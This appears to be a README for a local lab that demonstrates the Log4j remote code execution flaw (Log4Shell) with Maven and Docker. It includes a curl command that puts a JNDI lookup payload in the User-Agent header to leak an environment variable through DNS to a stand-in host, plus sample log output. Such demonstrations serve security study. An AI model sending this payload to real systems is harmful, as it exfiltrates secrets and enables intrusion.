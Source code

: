 # Log4j RCE Vuln

## Requirements

* maven 3.2+
* java 11
* docker

## Running Locally

![demo](demo.gif)

In one terminal tab run:

```bash
mvn install && docker-compose up --build
```

In another terminal tab run:

```bash
curl -s "http://localhost:8080/" -H 'User-Agent: ${jndi:ldap://${env:SECRET_VAR}.log4j2.internal/a}'
```

And watch the output in the first tab.  You will see something like the following

```text
Dec 13 05:54:09 dnsmasq[17]: query[A] 12345.log4j2.internal from 172.16.238.11
Dec 13 05:54:09 dnsmasq[17]: forwarded 12345.log4j2.internal to 10.0.0.1
```

